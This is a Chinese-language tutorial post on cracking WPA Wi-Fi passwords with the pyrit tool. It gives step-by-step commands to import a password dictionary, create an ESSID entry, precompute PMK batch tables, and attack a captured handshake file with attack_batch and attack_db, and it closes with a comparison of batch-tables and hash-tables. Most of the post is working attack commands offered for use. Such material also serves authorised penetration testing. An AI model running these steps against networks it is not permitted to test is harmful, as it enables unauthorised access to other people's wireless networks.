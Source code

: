 # WPA渗透-pyrit：batch-table加速attack_db模块加速_“attack_db”模块加速

## 1.渗透WIFI

1.导入密码字典

```
pyrit -i 字典文件 import_passwords
-i：输入的文件名
import_passwords：从类文件源导入密码。

pyrit -i /root/wifi/pwd.txt import_passwords
```

2.导入essid，破解完成记得删除

```
pyrit -e wifi名称 create_essid
-e：按ESSID过滤AccessPoint
create_essid：创建一个新的ESSID
delete_essid：从数据库中删除一个ESSID

pyrit -e cisco-1809 create_essid
```

![image.png](https://img.gyxnb.top/img/290bdf72849448e69d448042809d99f1.png)

3.批处理数据库,速度比较慢，耐心等待

```
pyrit batch 
batch：批处理数据库
```

![image.png](https://img.gyxnb.top/img/a3a6aeea675d496a9c14dc1a68b3cb3c.png)

4.batch-table(批处理数据库)加速渗透wifi

```
pyrit -e WiFi名称 -r cap包 attack_batch
attack_batch：攻击从数据库的PMKs/密码握手
-r：pcap格式的数据包捕获源

pyrit -e cisco-1809 -r wpa-1-01.cap attack_batch
```

![image.png](https://img.gyxnb.top/img/d7deff080cfa46d3a7b77106d1949108.png)

5.attack_db 加速渗透wifi

```
pyrit -e WiFi名称 -r cap包 attack_db
attack_db：攻击与数据库中的PMK握手
-r：pcap格式的数据包捕获源

pyrit -e cisco-1809 -r wpa-1-01.cap attack_db
```

![image.png](https://img.gyxnb.top/img/7327ae375337438abb00e7aa60142233.png)

6.batch-table和hash-table对比

相同点：生成起来都很慢

不同点：hash-table可以分享给别人用，batch-table只能自己用

弊端：需要生成batch-table 字典越大生成越慢

优势：生成batch-table后，渗透速度指数级提升